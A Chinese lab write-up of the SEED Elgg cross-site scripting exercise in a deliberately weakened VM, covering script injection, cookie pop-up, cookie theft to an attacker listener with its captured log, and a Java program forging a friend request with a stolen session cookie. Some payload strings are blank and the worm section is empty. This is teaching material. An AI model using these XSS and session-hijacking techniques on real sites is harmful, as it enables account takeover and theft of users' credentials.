



# [Elgg系统跨站脚本攻击实验](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/)
- 类型：攻击
- 难度：中等

## 简介

跨站点脚本（XSS）是通常在Web应用程序中发现的一种计算机安全漏洞。此漏洞可使攻击者将恶意代码（例如JavaScript）插入受害者的Web浏览器。使用这种恶意代码，攻击者可以窃取受害者的凭据，如Cookie。可以通过利用XSS漏洞来绕过浏览器用于保护这些凭据的访问控制策略（即，同源策略）。这类漏洞已经被利用来制作强大的网络钓鱼攻击和浏览器攻击。

为了展示利用XSS漏洞攻击者可以做什么，我们在预制的Ubuntu VM映像中设置了名为Elgg的Web应用程序。Elgg是社交网络非常受欢迎的开源Web应用程序，它已经实施了一些对抗措施来弥补XSS的威胁。为了演示XSS攻击如何工作，我们已经在Elgg的安装中取消了这些对抗措施，故意使Elgg容易遭受XSS攻击。没有这些对抗措施，用户可以将任意消息（包括JavaScript程序）发布到user profiles。在这个实验中，学生们需要利用这个漏洞，对修改后的Elgg进行XSS攻击，其方式与Samy Kamkar在2005年通过臭名昭著的Samy蠕虫对MySpace做了类似的处理。这种攻击的最终目标是在用户之间传播XSS蠕虫，以便任何查看受感染用户个人资料的用户被感染，被感染的人会将你（即攻击者）添加到他/她的朋友列表中。

更多关于XSS攻击原理介绍参见[ctf-wiki相关部分](https://github.com/skyblueee/ctf-wiki/blob/master/docs/web/xss.md)。

## 实验环境

### 实验用到的三大组件
1. Firefox浏览器（附带LiveHTTPHeaders插件，[简单安装使用教程](http://www.path8.net/tn/archives/2540)）
2. Apache服务器
3. Elgg应用程序（在2011版的实验手册中，使用的是phpBB应用程序）

### 准备步骤
1. 知识储备。
    - [JavaScript的基本知识](https://www.evl.uic.edu/luc/bvis546/Essential_Javascript_--_A_Javascript_Tutorial.pdf)。
2. 启动Apache服务器：`$sudo service apache2 start`（系统默认启动）
3. 配置DNS，修改`/etc/hosts`将`http://www.xsslabelgg.com`指向本机。（系统已预设）
4. 配置Apache服务器。

    Apache服务器支持在一台机器上同时架设多个Web站点，配置文件为`/etc/apache2/sites-available/default`，在该文件中每个`VirtualHost`块指定了一个Web站点（URL和本地对应文件夹）。

    本试验中URL为www.XSSLabElgg.com的块已经设置完毕，文件夹位于/var/www/XSS/elgg，LogLevel为debug。

5. Elgg预置用户列表

    | 用户名 |  密码      |
    |:------:|:----------:|
    | alice  | seedalice  |
    | boby   | seedboby   |
    | samy   | seedsamy   |
    | admin  | seedadmin  |

## 实验任务
### 任务1：注入弹窗
任务的目标是在Elgg user profile中嵌入JavaScript程序，当用户查看你的个人资料(profile)时，程序将会执行并且显示一个警告窗口。
```js
<script>alert('XSS');</script>
```

1. 以alice身份登录，修改profile，在其中的about me或者brief description等区域都可以注入js代码，注意如果在about me中注入的话，要点击那个html按钮编辑源代码。

    需要注意的是不要从PDF手册中直接拷贝，PDF中的单引号不对……

2. 如果我们想运行一段长的JavaScript代码，为了不受字段字符数量的限制，可以把JavaScript程序保存在js文件内，然后在`<script>`标签内使用`src`属性进行引用。

    1. 新建forxss.js文件，内容为`alert('XSS');`
    2. 新架设一个Web服务，这里懒得再弄了，直接从系统预装里面选一个，比如`www.poplab.com`，根目录为`/var/www/soplab/`，把上面的forxss.js放在这个目录下。
    3. 在brief description里面填入`<script type="text/javascript" src="http://www.soplab.com/forxss.js"> </script>`
    4. Firefox浏览Alice的profile，弹窗成功。

### 任务2：弹出Cookie
要求修改js代码，使得用户浏览时，弹出自己的cookie。

没啥特别的，把前面的`alert('XSS');`修改为`alert(document.cookie);`即可。

弹窗内容实例：
> Elgg=eb4fdg0hiev1rhcrkns91u1fk6

### 任务3：窃取Cookie
在用户那里弹出cookie没什么用，攻击者的目的肯定是要将获取的cookie偷取到攻击者那里才行。

这里用宿主机代表攻击者(ip:192.168.43.237)，用虚拟机代表服务器。

只要能够运行js脚本，其他就是技巧性地选择调用相关函数就好了。

 据指南，可以调用write函数请求一张远程图片。代码如下：
```js
<script>
document.write('');
</script>
```

攻击者在远端运行监听服务器程序（实验中提供的程序）等待连接。用户触发脚本后，服务器得到：
```sh
$ ./echoserv 5555
GET /?c=Elgg%3Deb4fdg0hiev1rhcrkns91u1fk6 HTTP/1.1
```
注：`%3D`是`=`URL编码后的结果（对整个`Elgg%3D.....1fk6`解码可得原cookie）。

### 任务4：会话劫持
在窃取受害者的cookies之后，攻击者可以对Elgg网络服务器做任何事情，包括代表受害者添加和删除朋友，删除受害者的帖子等。本质上，攻击者已经劫持了受害者的会话。在这个任务中，我们将发起这个会话劫持攻击，并写一个程序来代表受害者添加一个好友。

1. 查看真实请求。

    为了假冒请求，首先需要弄清楚真的请求应该是什么样子的。假设boby是攻击者，他首先用LiveHTTPHeader监听自己真正的添加好友请求：

    

    > 这里有个有意思的现象，如果从宿主机(远程)访问Alice的profile，弹出的cookie是这样的：
    > Elgg=694cd2096tlqoq54ievr9pj145; elggperm=zQHmSxMkMO5Q0L95WNx9B8ZPoIQaUVEN
    > 相比前面的本机访问，多了一个字段。

    可以看出，真实的添加好友请求为`GET /action/frends/add?friend=<id>&__elgg_ts=<......>&__elgg_token=<......>`

2. 仿造请求。

    这里，假设boby准备发起攻击，伪装成Alice向samy发起添加好友请求。前面他已经获得了Alice的cookie，下面他需要获得的信息还有：
    1. samy的用户id：这个不难，boby可以自己加一下samy，就知道samy的id(42)了。需要加自己为好友怎么办，目前想到的办法是注册个其他的小号来加自己。
    2. `__glgg_ts`和`__elgg_token`:这个不知道什么意思，但是对比可以看出，两个值都是变化的。

    

    搜索一下这两个东西，在[elgg的开发者指南](http://learn.elgg.org/en/stable/guides/actions.html)中有提到，这两个是用于对抗CSRF攻击的（原理暂时还没弄清楚），并且：
    > You can also access the tokens from javascript:
    >
    > ```
    > elgg.security.token.__elgg_ts;
    > elgg.security.token.__elgg_token;
    > ```
    >
    > These are refreshed periodically so should always be up-to-date.

    修改task3中的js并嵌入网页。
    ```js
    <script>
    document.write('');
        </script>
    ```
    攻击者用wireshark监听5555端口收到的http消息，得到：

    

    3. 修改指南中的java程序如下：
    ```java
    import java.io.*;
    import java.net.*;

    public class HTTPSimpleForge {
        public static void main(String[] args) throws IOException {
            try {
                int responseCode;
                InputStream responseIn=null;
                String requestDetails = "&__elgg_ts=1523234680&__elgg_token=c350392c025b08bd57749463f68ef2e2";
                // URL to be forged.
                URL url = new URL("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
                // URLConnection instance is created to further parameterize a
                // resource request past what the state members of URL instance
                // can represent.
                HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
                if (urlConn instanceof HttpURLConnection) {
                    urlConn.setConnectTimeout(60000);
                    urlConn.setReadTimeout(90000);
                }
                // addRequestProperty method is used to add HTTP Header Information.
                // Here we add User-Agent HTTP header to the forged HTTP packet.
                // Add other necessary HTTP Headers yourself. Cookies should be stolen
                // using the method in task3.
                urlConn.addRequestProperty("Host","www.xsslabelgg.com");
                urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
                urlConn.addRequestProperty("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
                urlConn.addRequestProperty("Accept-Language","zh-CN,en-US;q=0.7,en;q=0.3");
                urlConn.addRequestProperty("Accept-Encoding","gzip, deflate");
                urlConn.addRequestProperty("Referer","http://www.xsslabelgg.com/profile/alice");
                urlConn.addRequestProperty("Cookie","Elgg=hcr0r766effr7ot51eko3cv2s7");
                urlConn.addRequestProperty("Connection","keep-alive");
                urlConn.addRequestProperty("Upgrade-Insecure-Requests","1");
                //HTTP Post Data which includes the information to be sent to the server.
                String data = "";
                // DoOutput flag of URL Connection should be set to true
                // to send HTTP POST message.
                urlConn.setDoOutput(true);
                // OutputStreamWriter is used to write the HTTP POST data
                // to the url connection.
                OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
                wr.write(data);
                wr.flush();
                // HttpURLConnection a subclass of URLConnection is returned by
                // url.openConnection() since the url is an http request.
                if (urlConn instanceof HttpURLConnection) {
                    HttpURLConnection httpConn = (HttpURLConnection) urlConn;
                    // Contacts the web server and gets the status code from
                    // HTTP Response message.
                    responseCode = httpConn.getResponseCode();
                    System.out.println("Response Code = " + responseCode);
                    // HTTP status code HTTP_OK means the response was
                    // received sucessfully.
                    if (responseCode == HttpURLConnection.HTTP_OK)
                        // Get the input stream from url connection object.
                        responseIn = urlConn.getInputStream();
                    // Create an instance for BufferedReader
                    // to read the response line by line.
                    BufferedReader buf_inp = new BufferedReader(
                            new InputStreamReader(responseIn));
                    String inputLine;
                    while((inputLine = buf_inp.readLine())!=null) {
                        System.out.println(inputLine);
                    }
                }
            } catch (MalformedURLException e) {
                e.printStackTrace();
            }
        }
    }
    ```
    修改宿主机中`/etc/hosts`文件使得`www.xsslabelgg.com`指向虚拟机ip。运行：
    ```sh
    javac HTTPSimpleForge.java
    java HTTPSimpleForge
    ```
        程序输出一个网页信息，这时以Alice身份登录，发现已经添加samy为好友了。（注意：Elgg中好友关系是单向的，此时以samy身份登录，发现并没有添加Alice为好友。）

### 任务5：编写XSS蠕虫

